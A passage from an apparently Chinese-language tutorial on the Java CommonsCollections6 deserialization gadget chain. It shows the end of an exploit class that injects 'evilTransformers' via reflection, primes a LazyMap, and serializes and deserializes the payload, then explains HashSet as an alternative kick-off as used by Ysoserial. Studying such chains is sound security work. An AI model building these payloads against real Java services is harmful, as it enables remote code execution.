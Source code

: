 ```java
        f.setAccessible(true);
        // 利用反射技术，传入真正恶意的evilTransformers
        f.set(emptyTransformers, evilTransformers);

        // 移除传入lazyMap中的Key，使LazyMap#get方法中的(map.containsKey(key) == false)判断为true
        lazyMap.remove("k");

        // ----------------本地序列化与反序列化测试----------------
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("CC6WithHashMap.ser"));
        outputStream.writeObject(hashMap);
        outputStream.close();

        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("CC6WithHashMap.ser"));
        inputStream.readObject();
    }
}
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/22041d36-421a-4a2e-99a8-520f5f13e825/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T083949Z&X-Amz-Expires=3600&X-Amz-Signature=9d75480d54e6f64b113a037e077a90bb5281ab75d2aefbe341510dc9ff8b14d9&X-Amz-SignedHeaders=host&x-id=GetObject)

## HashSet

在 CC6 链中，除了`java.util.HashMap`类可作为 Kick-off 外，`java.util.HashSet`类也同样可以，只是稍显繁琐，Ysoserial 工具中的 CC6 链用到的就是这种方式。

`HashSet`是 Java 标准库中的一个类，具有快速添加、删除和查找等操作功能，并且实现了`Set`和`Serializable`等接口。`HashSet`内部实际上是通过一个`HashMap`实例来存储元素的，`HashSet`中的元素被存储为`HashMap`中的键，而对应的值则是一个固定的`Object`对象。在`HashSet`中，元素相当于是`HashMap`的键，而值则是一个占位符对象（即`PRESENT`常量），所以实际上`HashSet`只是一个对`HashMap`的包装，它通过键的唯一性来保证集合中不包含重复元素。

在`HashSet`中重写的`readObject`方法中，有对`HashMap`中的`put`方法进行调用。

```java
public class HashSet<E> extends AbstractSet<E> implements Set<E>, Cloneable, java.io.Serializable {
    static final long serialVersionUID = -5024744406713321676L;

    private transient HashMap<E,Object> map;

    // Dummy value to associate with an Object in the backing Map
    private static final Object PRESENT = new Object();

    // ...

    private void readObject(java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // ...

        // Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
}
```